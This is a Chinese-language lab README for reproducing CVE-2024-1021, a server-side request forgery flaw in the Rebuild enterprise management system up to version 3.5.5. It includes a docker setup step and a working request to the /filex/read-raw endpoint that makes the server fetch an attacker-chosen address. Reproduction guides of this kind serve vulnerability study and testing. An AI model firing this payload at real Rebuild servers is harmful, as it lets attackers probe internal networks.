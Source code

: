 # CVE-2024-1021 Rebuild管理系统 SSRF漏洞

[REBUILD](https://getrebuild.com/)（简称 RB）是一款高度可配置化的 [企业管理系统](https://baike.baidu.com/item/企业管理系统)，旨在帮助企业快速完成信息化建设，而无需高昂的研发成本投入。当遇到业务变化或需求变更时，可以通过系统本身提供的可配置化特性直接达成业务需求，而无需额外投入。通过 REBUILD 提供的各种配置化功能，您可以进行各种业务流程编排，灵活可靠。

在 Rebuild 至 3.5.5 版本中发现了一个被列为严重漏洞的漏洞。受此问题影响的是组件HTTP Request Handler的readRawText函数。对参数 url 的操纵会导致服务器端请求伪造。



项目下载地址：https://getrebuild.com/download

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2024-1021
- https://blog.csdn.net/shelter1234567/article/details/136171910?spm=1001.2014.3001.5501

## 漏洞环境

执行如下命令启动一个rebuild-3.5.5-web：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:80`跳转到rebuild安装向导页面。

![image-20240229174316691](./1.png)

连接mysql 数据库安装

![image-20240229185436397](./2.png)

## 漏洞复现

访问url

![](https://img-blog.csdnimg.cn/direct/87e3912a729f4486b14a5a392e700d8f.png)

http://ip:80/filex/read-raw?url=http://192.168.116.128:4444&cut=1

![](https://img-blog.csdnimg.cn/direct/efb52b9f94644c5598d44a0c4456d92f.png)
